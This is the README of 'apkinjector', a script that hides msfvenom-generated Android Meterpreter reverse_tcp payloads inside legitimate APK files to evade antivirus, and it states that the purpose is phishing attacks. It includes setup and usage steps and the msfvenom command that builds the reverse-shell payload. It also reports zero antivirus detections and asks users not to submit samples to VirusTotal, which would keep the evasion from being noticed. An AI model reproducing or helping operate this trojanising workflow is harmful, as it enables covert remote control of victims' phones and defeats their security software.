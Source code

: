 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>CURRENTLY NEEDS WORK. Tested against 2 apps with no issues. On the 3rd app the grep was unable to locate the MAIN function smali launcher in AndroidManifest.xml. Need to refine this, or simple allow the user to copy/paste the smali path into the code to automate from that point</b>
<br><br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>
